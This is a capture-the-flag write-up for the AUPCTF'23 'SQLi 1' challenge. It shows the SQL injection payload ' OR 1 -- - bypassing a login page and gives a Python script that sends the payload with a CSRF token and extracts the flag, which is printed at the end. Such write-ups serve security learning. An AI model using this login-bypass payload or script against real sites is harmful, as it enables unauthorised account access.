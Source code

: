 ```yaml
---
title: AUPCTF'23 - Web - SQLi 1
date: '2023-06-25'
tags: ['ctf', 'web', 'aupctf', 'sqli', 'login-bypass']
draft: false
summary: Basic SQL Injection to bypass login
---
```


## Solution

We're given the following URL to work with:

```js
https://challs.aupctf.live/sqli-1/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/sqli1.png)

Now, since we already know that the challenge is of `SQLi`, we can try random payloads, the most common one I use in `beginner-friendly ctfs` is:

```sql
' OR 1 -- -
```

And, it works!

![Login Page](/static/writeups/aupctf/web/sqli1_flag.png)

As you might've already guessed by know how much I love `python`, I wrote a script to automate this. Similar to [Conundrum](/blog/writeups/aupctf/web/conundrum/), we need to send the data to the login page and we have a `csrfmiddlewaretoken`, so we will use the same script, but change the username password to the payload:

```py
import requests
import re

url = "https://challs.aupctf.live/sqli-1/"

sess = requests.Session()

username = "' OR 1 -- -"
password = "' OR 1 -- -"

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password
	}
)
flag = re.findall("<h2>(.*?)</h2>", r.text)[0]
print(f"Flag: {flag}")
```

And, we get the flag:
Flag: `aupCTF{3a5y-sql-1nj3cti0n}`